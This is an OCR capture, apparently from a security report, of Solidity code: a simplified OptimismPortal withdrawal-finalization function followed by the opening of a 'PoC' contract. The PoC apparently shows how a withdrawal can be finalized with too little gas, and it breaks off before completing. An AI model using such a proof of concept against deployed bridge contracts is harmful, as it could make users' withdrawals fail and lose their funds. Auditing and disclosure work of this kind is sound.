 ```solidity=
        // a defacto reentrancy guard.
        require(
            l2Sender == DEFAULT_L2_SENDER,
            "OptimismPortal: can only trigger one withdrawal per transaction"
        );

        bytes32 withdrawalHash = Hashing.hashWithdrawal(_tx);

        // Check that this withdrawal has not already been finalized, this is replay protection.
        require(
            finalizedWithdrawals[withdrawalHash] == false,
            "OptimismPortal: withdrawal has already been finalized"
        );

        // Mark the withdrawal as finalized so it can't be replayed.
        finalizedWithdrawals[withdrawalHash] = true;

        // We want to maintain the property that the amount of gas supplied to the call to the
        // target contract is at least the gas limit specified by the user. We can do this by
        // enforcing that, at this point in time, we still have gaslimit + buffer gas available.
        require(
            gasleft() >= _tx.gasLimit + FINALIZE_GAS_BUFFER,
            "OptimismPortal: insufficient gas to finalize withdrawal"
        );

        // Set the l2Sender so contracts know who triggered this withdrawal on L2.
        l2Sender = _tx.sender;

        // Trigger the call to the target contract. We use SafeCall because we don't
        // care about the returndata and we don't want target contracts to be able to force this
        // call to run out of gas via a returndata bomb.
        bool success = SafeCall.call(
            _tx.target,
            gasleft() - FINALIZE_GAS_BUFFER,
            _tx.value,
            _tx.data
        );

        // Reset the l2Sender back to the default value.
        l2Sender = DEFAULT_L2_SENDER;

        // All withdrawals are immediately finalized. Replayability can
        // be achieved through contracts built on top of this contract
        emit WithdrawalFinalized(withdrawalHash, success);
    }
}

contract PoC {
    uint256 internal constant TO_USE_AS_SAFE_GAS_LIMIT = 3000000 + 30000;
    uint256 internal constant TO_USE_AS_INCORRECT_GAS_FOR_PROCESS_TRANSACTION = 3000000 + 80000;
    uint256 internal constant ADDITIONAL_OVERHEAD_TO_COVER_EXTRA_EXPENSES = 3000;

    constructor() {
        OptimismPortalSimplified optimismPortalSimplified = new OptimismPortalSimplified();
        CustomBridge customBridge = new CustomBridge(optimismPortalSimplified);

        require(gasleft() >= 10000000);
        require(customBridge.stateMarker() == 0);
        
        OptimismPortalSimplified.WithdrawalTransaction memory tx = OptimismPortalSimplified.WithdrawalTransaction({
            nonce: 0,
            sender: address(123),
```
